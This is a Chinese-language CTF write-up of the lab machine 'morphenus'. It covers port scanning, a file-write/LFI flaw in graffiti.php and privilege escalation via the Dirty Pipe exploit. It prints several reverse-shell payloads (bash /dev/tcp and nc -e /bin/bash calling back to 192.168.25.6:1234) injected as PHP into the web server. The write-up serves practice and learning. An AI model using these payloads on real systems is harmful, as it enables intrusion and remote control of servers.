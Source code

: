 # morphenus（√）

## nmap扫描  

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
81/tcp open  http    nginx 1.18.0
MAC Address: 00:0C:29:0B:D1:AC (VMware)
```

## web渗透  

![](img/2024-03-10-15-31-13.png)  
访问robots.txt是这样的结果，然后将主页的图片下载下来看有没有隐写。  
![](img/2024-03-10-15-39-49.png)  
结果是没有，在接着更细的目录扫描，文件扫描发现一个新php文件
![](img/2024-03-10-15-58-23.png)  
![](img/2024-03-10-16-00-29.png)  
我们通过输入框向graffiti.txt输入内容，然后页面再读取txt文件内容，我想这里一个有lfi，但是模糊测试没测出来，然后我又想了一下，这个可以写内容到文件里去，然后读的时候是读的graffiti.txt，所以我更改前端元素时它会一直加载。  
当我把input标签里的graffiti.txt改成graffi.php又得到了这样的结果  
![](img/2024-03-16-23-11-29.png)  
![](img/2024-03-16-23-11-47.png)  
然后可以确定有lfi，并且看到了graffiti.php的源码，通过源码分析，可以通过message参数写入file参数的文件，并且读取那个文件。我的初步分析是以为isset()是判断文件是否存在，结果这个导致我接下来鼓捣半天，不过无伤大雅，但实际上这个是判断参数是否设置，我在看别人的wp时别人都是直接新建一个shell.php然后写入shell。  

## 获得初始shell  

我尝试访问/etc/passwd失败，访问不了/etc/passwd是因为需要先写再读，然后我直接写shell到graffiti.php，但是为什么不解析  
![](img/2024-03-16-23-25-44.png)  
我尝试这样以及这样去写payload，最后我明白了写文件是a+，所以还得加上<?php ?>
exec("/bin/bash -i 5<> /dev/tcp/192.168.25.6/1234 0<&5 1>&5 2>&5");
bbb system("nc 192.168.25.6 1234 -e /bin/bash");  
后面又经过一番鼓捣之后  
<?php bbb system("nc 192.168.25.6 1234 -e /bin/bash");?>这个写进去了,php文件访问服务器错误。然后我就不得不reset靶机，然后继续这样写。
<?php echo "abc"; exec("bash -c '/bin/bash -i >& /dev/tcp/192.168.25.6/1234 0>&1'")?>但是我发现我直接写进去，代码会被注释掉一部分  
![](img/2024-03-17-16-15-06.png)  
我就再用相同的payload再写第二次，终于写进去了！！！
![](img/2024-03-17-16-28-48.png)  

## 提权  

我一番查找之后来到了web目录，发现一张图片，下载下来看是否有隐藏信息
![](img/2024-03-17-16-49-28.png)  
![](img/2024-03-17-16-48-50.png)  
同时我发现我能读根目录下的FLAG.txt，并且它提示我入手点就在这个图片  
![](img/2024-03-17-16-54-01.png)  
![](img/2024-03-17-16-54-23.png)  
我发现strings查看有个imagemagick，猜测可能是这个去分析图片得到一些信息，但是不会用这个，鼓捣半天也没发现什么端倪，然后我又一次看wp。  
看了一堆wp，都是用linpeas.sh分析出一个叫dirty-pipe的漏洞，exp在这儿(dirty-pipe)[https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit]，然后根据操作步骤提权像下面一样，但是我是非常反感这个枚举脚本，因为他会列出一大堆漏洞，然后wp也是不告诉你为什么就选择这个进行利用，看的我模棱两可的，难道真的没法分析那张图片吗？
![](img/2024-03-17-17-52-28.png)  
![](img/2024-03-17-17-51-53.png)  

## 总结  

1. 写入shell那里本来不是什么难事，但是有坑，网上的wp基本上都是写入一个新php文件，并且还用什么编码哪些巴拉巴拉一堆。
2. 这个提权也是无语，完全搞不懂为什么就是那个东西。
3. 虽然官方标注的是中等-困难的难度，但是感觉不是难，而是无厘头
